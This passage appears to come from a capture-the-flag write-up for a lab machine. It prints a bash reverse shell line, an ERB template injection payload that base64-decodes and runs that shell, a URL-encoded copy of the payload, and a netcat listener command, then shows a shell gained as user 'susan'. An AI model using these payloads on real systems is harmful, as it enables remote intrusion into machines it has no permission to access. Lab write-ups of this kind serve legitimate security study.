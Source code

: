 ```bash title="bash reverse shell payload"
bash -i >& /dev/tcp/10.10.14.4/1337 0>&1
```

```erb title="ERB payload (non-URL encoded)"
<%= system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEzMzcgMD4mMQ== |
base64 -d | bash') %>
```

```txt title="URL encoded ERB payload"
%0a%3c%25%3d%20%73%79%73%74%65%6d%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%6
1%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%
78%4e%43%34%30%4c%7a%45%7a%4d%7a%63%67%4d%44%34%6d%4d%51%3d%3d%20%7c%20%62%61%73
%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%29%20%25%3e
```

And on our own machine

```bash
nc -lvnp 1337
```

Send the URL encoded request above...

![and here we go dark knight gif](../../assets/images/the-dark-knight-joker.gif)

![Reverse shell](../../assets/images/perfection-80-nc.png)

And just like that, we have user and are inside the user `susan`'s `/home` directory.

![Susan's home directory](../../assets/images/perfection-80-user.png)
